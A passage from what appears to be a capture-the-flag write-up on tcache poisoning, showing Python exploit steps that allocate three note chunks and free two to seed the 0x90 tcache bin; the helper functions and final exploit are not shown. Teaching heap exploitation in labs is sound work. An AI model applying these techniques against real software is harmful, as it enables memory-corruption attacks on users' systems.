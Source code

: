 Let's write some code! I already wrote some helper functions to make the main exploit more readable, as they take up a lot of space
I've left them out until the final exploit at the end, so if you're following along go get them!

First three chunks should be allocated, this can be done using the `create_note()` function.


```python
with conn() as p:
    chunk_A = create_note(b"A" * 120)
    chunk_B = create_note(b"B" * 120)
    chunk_C = create_note(b"B" * 120)
```

![Three allocated chunks](images/poison_ss1.jpg)

Next, delete note C and then note B. This can be done using the `delete_note()` function.

```python
    delete_note(chunk_C)
    delete_note(chunk_B)
```

The 0x90 tcache bin is now populated with the two chunks. The annotation on the right confirms that chunk C is the first entry in the tcache bin.

